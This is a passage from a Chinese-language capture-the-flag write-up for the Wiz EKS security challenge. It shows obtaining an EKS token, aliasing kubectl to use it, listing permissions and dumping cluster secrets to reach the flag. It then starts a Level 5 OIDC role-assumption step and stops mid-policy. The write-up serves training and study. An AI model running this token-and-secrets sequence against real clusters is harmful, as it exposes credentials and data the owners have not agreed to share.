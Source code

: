 ``` yaml
        interactiveMode: IfAvailable
        provideClusterInfo: false
```

```bash
export KUBECONFIG=<above-content.yaml>
```
### Method 2 direct use token

```bash
aws eks get-token --cluster-name eks-challenge-cluster
{
    "kind": "ExecCredential",
    "apiVersion": "client.authentication.k8s.io/v1beta1",
    "spec": {},
    "status": {
        "expirationTimestamp": "2023-XX-XXTXX:XX:XXX",
        "token": "k8s-aws-v1.aHR0{TOKEN_URL IN BASE64ed}A3OTFhMDI4NjEy"
    }
}
```

```bash
alias kubectl="kubectl --token={status.token k8s-aws-v1.aHR0{TOKEN_URL IN BASE64ed}A3OTFhMDI4NjEy}"
```

### Final

这里我们如果不确定有什么权限可以通过 下面的指令 进行查看

``` bash
kubectl auth can-i --list

Resources                                       Non-Resource URLs   Resource Names     Verbs
pods                                            []                  []                 [get list]
secrets                                         []                  []                 [get list]
serviceaccounts                                 []                  []                 [get list]
```

再获取一下 flag

```bash
kubectl get secrets -o yaml
```

```
wiz_eks_challenge{only_a_real_pro_can_navigate_IMDS_to_EKS_congrats}
```

## Level5: back AWS with OIDC

这个层级是 Level 4 的更进一步。

```json
{
  "Version": "2012-10-17",
  "Statement":
    [
      {
        "Effect": "Allow",
        "Principal":
          {
            "Federated": "arn:aws:iam::688655246681:oidc-provider/oidc.eks.us-west-1.amazonaws.com/id/C062C207C8F50DE4EC24A372FF60E589",
          },
        "Action": "sts:AssumeRoleWithWebIdentity",
        "Condition":
          {
```